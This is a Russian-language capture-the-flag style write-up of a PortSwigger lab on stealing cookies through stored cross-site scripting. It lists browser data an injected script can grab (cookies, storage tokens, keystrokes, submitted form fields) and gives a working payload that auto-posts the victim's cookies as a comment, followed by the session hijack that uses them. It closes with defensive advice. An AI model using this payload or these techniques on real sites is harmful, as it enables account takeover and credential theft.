

файлы которые можно получить из браузера жертвы

`alert(document.domain)`  домен

`alert(document.cookie)`  куки
###### локал сторадж и сессион сторадж

`localStorage.getItem('token')` или `sessionStorage.getItem('session')`  JWT токены и токены сессий, id, персональные данные

==информация о странице==

`document.URL` показывает полный урл
`document.referrer` — откуда пришёл пользователь
`document.title` — заголовок страницы
`document.documentElement.innerHTML`  может выгрузить весь код страницы

==атрибуты и метатеги==

`input type="hidden"        или value`


==геолокация и данные устройства==
`navigator` доступ к юзер-агенту, экранным разрешениям, языку браузера, плагинам
`navigator.geolocation.getCurrentPosition`  координаты запросить

==внутренние айдишники==
`window.name`

==кейлоггинг==

можно повесить обработчик `onkeypress` на всю страницу и собирать всё, что жертва печатает

==скриншоты страницы==

через `html2canvas` можно сделать скрин и отправить его себе — если юзер ввёл какие-то данные на странице, их можно получить

==сниффинг форм==

подписаться на событие `onsubmit` и перед отправкой формы читать все поля — логины, пароли, платежные данные

==браузерные расширения==

`navigator.plugins` показывает список установленных плагинов — по ним можно понять, какие расширения стоят у жертвы

------

эта лаба про кражу файлов куки

что может помешать краже кук ?


- Возможно, жертва не вошла в систему.
- Многие приложения скрывают свои файлы cookie от JavaScript с помощью флага`HttpOnly`.
- Сеансы могут быть заблокированы дополнительными факторами, такими как IP-адрес пользователя.
- Время сеанса может истечь, прежде чем вы сможете его захватить.


лаба https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies
#### Exploiting cross-site scripting to steal cookies
задание:
нужно оставить в комментарии xss который ворует куки 
далее нужно сделать так, чтобы эти куки прилетали на мой сервер
поле получения кук - необходимо войти в аккаунт жертвы!

но чтобы решить это через отправку на собственный сервер - то это нереально, так как там принимается только сервер Burp Collaborator.

но есть обходной логический путь,
можно сделать так, чтобы жертва при посещении страницы выполнила незапланированное действие от себя путем автоматической отправки комментария который будет содержать куки.
этот способ конечно не такой действенный, но зато позволит решить мне лабу.
а вот отправить на сервер, мне кажется даже более интересно

------

приступаю к решению:

первый запрос разведки    alert("777")
отраженный ответ:  
```html
 <p>alert("777")</p>
```
просто вставился между тегов

---
пробуй выйти из тега создав новый тег

запрос   ``
ответ
```html
 <p>  </p>
```

⭐️алерт сработал

теперь нужно сделать чтобы алерт высвечивал куки
запрос   ``
вернул мне сессионную куку




---

теперь нужно так сделать, чтобы выполнить действие от имени юзера, нужно перехватить это действие и поместить его в ссылку, которую можно поставить в пейлоад

перехватил пост запрос который отправляет коммент
```http
POST /post/comment HTTP/2
Host: 0a0700d8039ab575800ed53000780026.web-security-academy.net
Cookie: session=KDAH6nO8Re7qs7I8onMvYyEn5HxhrjhQ
....
...
..
.

csrf=K0W1CZE5VqZVHs5jvssXsb1LpIUch4mh&postId=1&comment=88888&name=zheka&email=2_zheka%40bk.ru&website=
```

ссылка сформированная которая из этого запроса но без пост параметров
https://0a0700d8039ab575800ed53000780026.web-security-academy.net/post/comment

данный скрипт выполняет действие отправки коммента 

```js
<script>
window.addEventListener('DOMContentLoaded', function() {
    var token = document.getElementsByName('csrf')[0].value;
    var data = new FormData();
    
    data.append('csrf', token);
    data.append('postId', 1);  
    data.append('comment', document.cookie);
    data.append('name', 'victimNAME');
    data.append('email', 'any@email.com');
    data.append('website', '');
    
    fetch('/post/comment', {
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
});
</script>
```

и вуаля, теперь я вижу в комментах автоматически отправленные куки прямо в комменты!

появился коммент (кто-то зашел на стр  с этим постом)
коммент отправился автоматически с куки данными жертвы:

secret=wbCeSDnEQ1OVMeTjpXXIlGk9gJN4YGJ4; 
session=9jffDhoFnLOnDOShx3FH6F6oCYpOdv91

----

теперь нужно выполнить воход в аккаунт жертвы используя эти данные!

-----

вот запрос 
```http
GET /post?postId=1 HTTP/2
Host: 0a0700d8039ab575800ed53000780026.web-security-academy.net
Cookie: session=9jffDhoFnLOnDOShx3FH6F6oCYpOdv91
...

```
я просто подменил куку сессии на свою и получил доступ к чужой сессии!
лаба решена!


### выводы  
уязвимость стала возможной потому что сайт хранил сессионные куки без флага httponly и они были доступны через javascript  

злоумышленник смог внедрить xss через комментарий который заставил жертву опубликовать свои куки публично  

куки жертвы стали видны всем на странице и их мог забрать любой кто зайдёт на эту страницу если бы можно было использовать свои сервера - то мог бы легко отравить данные на свой сервер и получить данные кук, и жертва бы никак не узнала бы что ваще что-либо произошло 

достаточно было просто скопировать куку и подставить её в свой запрос чтобы войти в аккаунт жертвы

### как защититься  
всегда устанавливать флаг httponly для сессионных кук чтобы javascript не имел к ним доступа  

использовать дополнительные атрибуты кук такие как secure и samesite=lax или strict  

применять content security policy csp для ограничения возможности выполнения скриптов  

не полагаться только на черные списки а экранировать весь пользовательский ввод при выводе на страницу  

регулярно проводить аудит кода на наличие xss особенно в местах где пользователи могут оставлять контент


